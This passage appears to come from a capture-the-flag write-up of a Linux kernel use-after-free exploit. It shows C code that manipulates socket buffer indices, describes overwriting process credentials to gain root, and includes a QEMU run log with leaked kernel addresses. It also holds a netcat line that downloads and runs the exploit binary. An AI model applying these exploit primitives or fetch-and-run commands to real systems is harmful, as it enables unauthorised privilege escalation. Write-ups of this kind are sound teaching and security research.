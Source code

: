 ```c
    sock_buf[1] = addr;     // buffer
    sock_buf[2] = 0x0;      // read_index
    sock_buf[3] = 0x0;  // write_index = empty
    int r = sock_send(client[2], sock_buf, sizeof(sock_buf));
    // printf("[*] Send to uaf[0]: %d\n", r);

    // Send to uaf[1] through sever[1]
    r = sock_send(server[1], &value, 8);

    /*
     * Now we need to reset the read/write indeces for uaf[0].
     * For that, first flush the data we have in it so far.
     */

    char buf[0x80];
    r = sock_recv(uaf[0], buf, sizeof(buf));
    // printf("[*] Flushed %d bytes off uaf[0] buffer\n" , r);

    /* Now place "write_buf" back to 0 */
    r = sock_send(client[2], buf, 0x80-r);
    // printf("[*] Pushed %d bytes to uaf[0] buffer\n" , r);

    /* Now get read_index back to zero too */
    r = sock_recv(uaf[0], buf, sizeof(buf));    
    // printf("[*] Flushed %d bytes off uaf[0] buffer\n" , r);

}
```

Using these two primitives we have full access to the kernel. The exploit 
now finds the kernel base from the `file_operations` in the socket, goes 
through the task list to find itself and sets its credentials to root.

## Example run

Since the Qemu image has networking enabled, we can test it by just using 
netcat to pull the exploit files from the host:

```
/ $ cd
~ $ nc 10.0.2.2 1234 > exploit ; chmod +x exploit ; ./exploit
[*] Creating server0
[*] Trying to listen in socket0
[*] Creating server1
[*] Trying to listen in socket1
[*] Creating server2
[*] Trying to listen in socket2
[*] Creating client0
[*] Trying to connect to socket0
[*] uffd: 1016
[*] uffd API ok
[*] uffd registered
[*] userfaultfd thread running, fd 1016
[*] Got userfaultfd message 18 
[*] Fault at 7ff15e834000
[*] Resize client[0] said: 0
[*] Created uaf[0]
[*] Trying to listen in uaf0
[*] uaf[0]->listening.next : ffff888002826288
[*] uaf[0]->listening.prev : ffffffffa00023c8
[*] uaf[0]->sock->buf : ffff888002821c80
[*] Trying to connect to socket2
[*] Got userfaultfd message 18 
[*] Fault at 7ff15e835000
```
